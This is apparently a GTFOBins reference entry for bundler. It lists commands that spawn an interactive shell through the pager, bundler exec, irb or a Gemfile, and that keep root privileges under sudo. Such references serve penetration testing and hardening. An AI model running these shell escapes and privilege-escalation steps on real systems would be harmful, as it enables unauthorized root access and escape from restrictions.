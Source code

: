 # GTFOBin: bundler

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be  `less`, other functions may apply.

```
bundler help
!/bin/sh
```

```
export BUNDLE_GEMFILE=x
bundler exec /bin/sh
```

```
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
bundler exec /bin/sh
```

This spawns an interactive shell via `irb`.

```
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
bundler console
system('/bin/sh -c /bin/sh')
```

```
TF=$(mktemp -d)
echo 'system("/bin/sh")' > $TF/Gemfile
cd $TF
bundler install
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be  `less`, other functions may apply.

```
sudo bundler help
!/bin/sh
```